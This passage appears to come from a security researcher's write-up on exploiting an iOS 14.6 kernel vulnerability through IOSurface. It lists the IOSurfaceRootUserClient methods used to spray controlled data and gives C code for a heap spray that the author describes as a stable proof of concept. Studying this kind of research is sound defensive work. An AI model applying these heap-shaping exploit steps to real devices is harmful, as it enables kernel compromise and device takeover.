 * allocate/release surfaces, by calling methods such as *IOSurfaceRootUserClient::s_create_surface* (method 0) and *IOSurfaceRootUserClient::s_release_surface* (method 1)
* spray controlled data, by calling *IOSurfaceRootUserClient::s_set_value* (method 9)

and that's just the start. For more information and some examples of how it was used in previous exploits (well, there are so many), you can look up [one](https://www.synacktiv.com/en/publications/analysis-and-exploitation-of-the-ios-kernel-vulnerability-cve-2021-1782.html), [two](https://siguza.github.io/v0rtex/), [three](https://papers.put.as/papers/ios/2019/LiangPOC.pdf) and a lot more. However, keep in mind that our vulnerable function does not give us an IOSurface id (as returned by *IOSurfaceRootUserClient::s_create_surface*). It returns the port name associated with this surface. That's fine, because we have external methods we can use, just for that:

* method 34: *IOSurfaceRootUserClient::s_lookup_surface_from_port*
* method 35: calls *IOSurfaceRootUserClient::create_port_from_surface*

### Shaping, fully control IOSurface ptr

Ok, let's get to work! The first thing we need to do is to build a POC that shapes the heap, such that after our array (at some 8-aligned offset) there will be our controlled data. After playing a little bit with IOSurfaces, I saw I'm able to spray controlled content that will be (approximately) after 0x1200000 bytes (Corellium EL1 debugging was super helpful here, saved me a lot of panics along the way :P). I built the following simple spray (takes advantage of the same implementation of *IOSurface.c* by [Brandon Azad](https://twitter.com/_bazad), just as was used [here](https://www.synacktiv.com/en/publications/analysis-and-exploitation-of-the-ios-kernel-vulnerability-cve-2021-1782.html), thanks!).

This is the shape that got me a 100% stable POC on both my physical iPhone X (14.6 18F72) and virtual iPhone XR (14.6 18F72, Corellium):

```c
bool do_spray(void) {
    char data[0x10];
    memset(data, 0x41, sizeof(data));
    
    io_connect_t iosurface_uc = get_iosurface_root_uc();
    if (iosurface_uc == MACH_PORT_NULL) {
        return false;
    }
        
    int *surface_ids = (int*)malloc(SURFACES_COUNT * sizeof(int));
    for (size_t i = 0; i < SURFACES_COUNT; ++i) {
        surface_ids[i] = create_surface(iosurface_uc);
        if (surface_ids[i] <= 0) {
            return false;
        }
        
        if (IOSurface_spray_with_gc(iosurface_uc, surface_ids[i], 20, 200, data, sizeof(data), NULL) == false) {
            printf("iosurface spray failed\n");
            return false;
        }
    }
    
    return true;
}

```
